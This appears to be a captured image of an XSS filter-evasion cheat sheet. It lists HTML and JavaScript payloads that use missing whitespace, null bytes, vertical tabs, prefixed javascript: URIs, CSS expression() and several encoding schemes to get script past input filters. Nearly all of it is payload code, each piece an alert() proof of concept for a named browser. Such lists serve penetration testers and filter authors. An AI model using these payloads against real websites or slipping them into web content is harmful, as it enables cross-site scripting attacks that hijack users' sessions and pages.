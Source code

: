 ```html

Use slashes instead of whitespace (IE, Firefox, Chrome, Safari).
<img/src='1'/onerror=alert(0)>

Use vertical tabs instead of whitespace (IE, Safari).
<img\x0bsrc='1'\x0bonerror=alert(0)>

Use quotes instead of whitespace in some situations (Safari).
<img src='1''onerror='alert(0)'>
<img src='1'"onerror="alert(0)">

Use null-bytes instead of whitespaces in some situations (IE).
<img src='1'\x00onerror=alert(0)>

Just don't use spaces (IE, Firefox, Chrome, Safari).
<img src='1'onerror=alert(0)>

Prefix URI schemes.
Firefox (\x09, \x0a, \x0d, \x20)
Chrome (Any character \x01 to \x20)
<iframe src="\x01javascript:alert(0)"></iframe> <!-- Example for Chrome -->

No greater-than characters needed (IE, Firefox, Chrome, Safari).
<img src='1' onerror='alert(0)' <

Extra less-than characters (IE, Firefox, Chrome, Safari).
<<script>alert(0)</script>

Backslash character between expression and opening parenthesis (IE).
<style>body{background-color:expression\(alert(1))}</style>

JavaScript Escaping
<script>document.write('<a hr\ef=j\avas\cript\:a\lert(2)>blah</a>');</script>

Encoding Galore.

HTML Attribute Encoding
<img src="1" onerror="alert(1)" />
<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
<iframe src="javascript:alert(1)"></iframe>
<iframe src="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;"></iframe>

URL Encoding
<iframe src="javascript:alert(1)"></iframe>
<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>

CSS Hexadecimal Encoding (IE specific examples)
<div style="x:expression(alert(1))">Joker</div>
<div style="x:\65\78\70\72\65\73\73\69\6f\6e(alert(1))">Joker</div>
<div style="x:\000065\000078\000070\000072\000065\000073\000073\000069\00006f\00006e(alert(1))">Joker</div>
<div style="x:\65\78\70\72\65\73\73\69\6f\6e\028 alert \028 1 \029 \029">Joker</div>

JavaScript (hexadecimal, octal, and unicode)
<script>document.write('<img src=1 onerror=alert(1)>');</script>
<script>document.write('\x3C\x69\x6D\x67\x20\x73\x72\x63\x3D\x31\x20\x6F\x6E\x65\x72\x72\x6F\x72\x3D\x61\x6C\x65\x72\x74\x28\x31\x29\x3E');</script>
<script>document.write('\074\151\155\147\040\163\162\143\075\061\040\157\156\145\162\162\157\162\075\141\154\145\162\164\050\061\051\076');</script>
<script>document.write('\u003C\u0069\u006D\u0067\u0020\u0073\u0072\u0063\u003D\u0031\u0020\u006F\u006E\u0065\u0072\u0072\u006F\u0072\u003D\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029\u003E');</script>
```